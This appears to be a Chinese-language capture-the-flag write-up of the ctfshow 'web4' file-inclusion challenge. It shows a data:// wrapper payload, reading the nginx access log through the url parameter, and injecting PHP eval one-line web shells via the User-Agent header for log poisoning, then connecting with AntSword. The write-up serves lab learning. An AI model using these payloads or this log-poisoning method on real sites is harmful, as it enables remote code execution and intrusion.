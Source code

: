 ## web4

+ 查看页面如下，看解释仍然是文件包含漏洞

![web4_1](./img/web4_1.PNG)



+ 使用<code>data</code>协议查看当前目录下所有文件

~~~ shell
?url=data://plain/text,<?php print_r(glob('*'))?>
~~~

![web4_2](./img/web4_2.PNG)

发生了错误，此路不通，考虑换一种方法



+ 使用<code>burpsuite</code>查看数据包

![web6_8](./img/web6_8.PNG)

![web4_7](./img/web4_7.PNG)

~~~ txt
发现该道题使用的是nginx服务器，那我们想到可不可以通过日志文件进行写码来得到flag呢，所以我们访问日志看看
~~~



+ 使用如下语句查看日志文件

~~~ shell
?url=/var/log/nginx/access.log
~~~

![web4_3](./img/web4_3.PNG)

![web4_8](./img/web4_8.PNG)

查询日志发现，每访问一次数据包中的UA头会被写入日志文件中，则可尝试在UA头写码



+ <code>User-Agent</code>注入以下语句

~~~ shell
<?php eval($_POST["ctfshow"]); ?>
<?php eval($_REQUEST["ctfshow"]); ?>
~~~

![web4_9](./img/web4_9.PNG)

发现日志上没有显示一句话木马则说明木马已经被解析了



+ 用蚁剑连接

![web4_10](./img/web4_10.PNG)

